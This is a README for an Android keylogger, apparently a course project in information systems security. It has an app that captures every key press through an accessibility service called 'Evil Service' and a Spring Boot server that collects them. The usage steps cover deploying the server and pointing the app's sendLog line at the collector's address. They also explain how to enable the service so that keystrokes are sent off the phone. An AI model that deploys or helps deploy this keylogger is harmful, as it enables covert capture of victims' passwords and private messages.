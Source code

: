 # Android Keylogger

This is a project implemented as Project for the Information Systems Security Course. The main idea is developing a basic key logger for android mobile devices.

## Modules
* keylogapp => Basic Android Java Mobile Application that logs keys
* keylogweb => Spring Boot Web Application that receives logged keys

## How It Works
[Keylogger.png](./diagrams/Keylogger.png)

## Usage
1. Deploy **keylogweb** application
    * NOTE: your andorid phone must have access to the server that web application running via network or internet etc.
    * You can directly start with following command:
        ```bash
        mvn clean package spring-boot:run
        ```
2. Prepare **keylogapp** for deployment
   1. [Go To KeyLogger.java](https://github.com/maemresen/android-keylogger/blob/main/keylogapp/app/src/main/java/com/maemresen/infsec/keylogapp/KeyLogger.java) 
   2. Find the following line
        ```
        sendLog("http://192.168.1.37:8080/keylog/save", keyLog);
        ```
    3. Replace `192.168.1.37` with the IP of the machine that you deploy `keylogweb` 
3. You should enable **Evil Service** which listens key press and send them to the server
   * after installed the App, you have to open Accessibility settings. (A button named **Evil Service** is added as a shortcut to directly jump accesibility settings.) Then at the bottom of the page, you will see **Evil Service** under Downloaded Services. You should enable Evil Service from there. Then it will works.
4. You can check your browser and you will see that each key-press on your Android phone will be printed to the web-page. **! Hint:** Do not forget to refresh browser manually. Auto-refresh feature not implemented :)
